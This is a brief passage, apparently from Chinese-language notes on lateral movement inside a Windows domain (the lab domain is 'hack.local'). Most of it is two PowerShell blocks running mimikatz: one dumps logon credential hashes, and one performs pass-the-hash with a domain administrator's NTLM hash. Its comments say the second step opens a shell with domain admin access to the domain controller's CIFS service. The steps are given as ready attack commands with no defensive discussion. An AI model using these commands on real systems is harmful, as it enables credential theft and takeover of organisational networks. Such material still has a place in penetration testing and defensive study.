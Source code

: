 ```powershell
# 抓取用户哈希
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%208.png)

```powershell
# 利用抓取到的域管理员的NTLM HASH进行哈希传递
# 成功执行会弹出一个新的命令行窗口，在新的命令行中具有域管理员权限，可以访问域控的CIFS服务
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:hack.local /ntlm:96b26b0744352a9d91516132c3fe485d" exit
```
